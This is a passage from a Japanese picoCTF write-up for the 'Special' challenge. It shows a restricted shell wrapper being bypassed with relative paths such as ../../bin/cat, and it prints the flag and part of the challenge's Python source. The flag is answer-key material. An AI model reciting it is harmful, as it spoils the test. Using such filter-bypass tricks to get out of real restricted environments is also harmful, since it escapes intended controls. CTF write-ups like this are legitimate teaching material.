 Special$ ../../bin/find .
../../bin/find .
.
./blargh
./blargh/flag.txt
./.cache
./.cache/motd.legal-displayed
</pre>

<br /><br />

ということで、以下でフラグが得られます。

<pre>
Special$ ../../bin/cat ./blargh/flag.txt
../../bin/cat ./blargh/flag.txt
picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}
</pre>

<br /><br />

ちなみに、フラグだけではなく、チャレンジプログラムの中身も見れます。

<pre>
Special$ ../../bin/cat /usr/local/Special.py
</pre>

```Python
#!/usr/bin/python3

import os
from spellchecker import SpellChecker



spell = SpellChecker()

while True:
  cmd = input("Special$ ")
  rval = 0

  if cmd == 'exit':
    break
  elif 'sh' in cmd:
    print('Why go back to an inferior shell?')
    continue
  elif cmd[0] == '/':
    print('Absolutely not paths like that, please!')
    continue

  # Spellcheck
  spellcheck_cmd = ''
  for word in cmd.split():
    fixed_word = spell.correction(word)
    if fixed_word is None:
      fixed_word = word
    spellcheck_cmd += fixed_word + ' '

  # Capitalize
  fixed_cmd = list(spellcheck_cmd)
  words = spellcheck_cmd.split()
  first_word = words[0]
  first_letter = first_word[0]
  if ord(first_letter) >= 97 and ord(first_letter) <= 122:
    fixed_cmd[0] = chr(ord(spellcheck_cmd[0]) - 0x20)
  fixed_cmd = ''.join(fixed_cmd)

```